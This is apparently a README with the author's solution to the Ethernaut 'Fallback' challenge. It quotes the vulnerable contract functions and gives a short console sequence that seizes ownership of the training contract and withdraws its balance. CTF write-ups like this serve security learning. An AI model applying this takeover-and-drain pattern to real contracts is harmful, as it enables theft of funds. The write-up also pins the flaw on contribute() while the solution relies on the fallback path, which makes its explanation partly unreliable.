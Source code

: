 # EthernautSolutions

Here are my solutions for the Ethernaut challenges.

# 1. Fallback

## Vulnerability

The vulnerability is in the contribute() function:

```
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
  ```
  
 If you send more funds to the contract than the current owner, you become the new owner. And once you claim ownership of the contract, you can call the withdraw() function to take the contract's funds.
 
 ```
function withdraw() public onlyOwner {
   owner.transfer(address(this).balance);
 }
 ```
 
  ## Solution
  ```
  await contract.contribute({value: 1})
  await contract.sendTransaction({value: 1})
  await contract.withdraw()
  ```
